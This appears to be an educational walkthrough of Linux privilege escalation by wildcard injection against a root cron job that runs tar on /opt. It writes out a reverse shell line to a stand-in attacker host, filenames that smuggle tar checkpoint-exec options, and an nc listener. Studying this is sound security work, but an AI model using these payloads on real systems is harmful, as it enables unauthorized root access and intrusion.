






Introduction
In this article, we will explain privilege escalation through Wildcard Injection.
Before we start with the scenario, we will first understand what wildcards are and how they work. We will also walk through an example of wildcard injection to make sure the concept is clear, and then we will apply the actual scenario that allows us to escalate privileges.
What Are Wildcards?
Wildcards are special symbols that make it easier for system administrators to work with files.
Examples of wildcard symbols:
*(asterisk): Matches any characters or numbers in a filename, including nothing at all.~(tilde): Refers to the home directory of the user who executed the command.
There are more wildcard symbols, but the asterisk is the one we care about for this attack.
Example of the Asterisk Wildcard
Let us take an example together to understand exactly what * does.
Suppose we have two files: file.txt and file2.txt, and the owner of both files is the user jehad. Now we want to change the owner of both files from jehad to test using the chown command:
chown test [name of file]
But imagine if we had one hundred files that we need to change ownership for. Are we going to run the chown command one hundred times? That would be exhausting. This is where the asterisk wildcard comes in -- it will change all files in the directory from jehad to test in a single command:
chown test *
So now you understand what the asterisk means -- it refers to any file in the directory, whether the filename starts with numbers or letters.
Understanding Wildcard Injection
Now let us look at the concept of wildcard injection. If we create a file named --help (which is the same as an option that the chown command supports), and then we run the same command we used before, what happens?
The system executes the --help option and abandons the actual task of the command we ran!
This is exactly the exploitation concept: there may be specific options within the command being executed that can be used to run a malicious file.
Privilege Escalation Scenario
Initial Access
As usual, we are logged in as the user test and we want to reach root privileges.

Identifying the Cron Job
We notice there is a scheduled cron job running every minute with root privileges. What it does is navigate to the /opt directory first, then create a compressed archive called backup.tgz that contains all files and directories inside the /opt directory.
Since it uses the asterisk wildcard (*), it means all files and directories will be included. Now we need to look for options specific to the tar command that can execute a malicious file for us.

Exploiting tar Options
We have these two options available for the tar command:
--checkpoint=[n]-- This specifies after how many records to display a progress message. It controls the timing before executing the action in the next option.--checkpoint-action=exec-- This specifies a command to execute at each checkpoint.


Creating the Malicious Payload
First, we create a shell script in the /opt directory containing a reverse shell payload:
# Create the reverse shell script in /opt
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4242 0>&1' > /opt/shell.sh
Then we create two files whose names match the tar options that will execute our malicious file:
touch '/opt/--checkpoint=1'
touch '/opt/--checkpoint-action=exec=sh shell.sh'
When tar runs with the * wildcard, it will interpret these filenames as command-line options. The --checkpoint=1 file tells tar to trigger a checkpoint after every record, and the --checkpoint-action=exec=sh shell.sh file tells it to execute our shell.sh script at each checkpoint.

Getting the Reverse Shell
Now we simply start a listener on the same port as the reverse shell we specified, which is port 4242, and wait:
nc -lvnp 4242
After one minute passes (when the cron job fires), we receive a shell back with root privileges.

Result
With that, we have obtained the highest privileges on the system through Wildcard Injection. The key takeaway is that any time a command is run with the * wildcard by a privileged user on a directory where we have write access, there is potential for injection through crafted filenames.
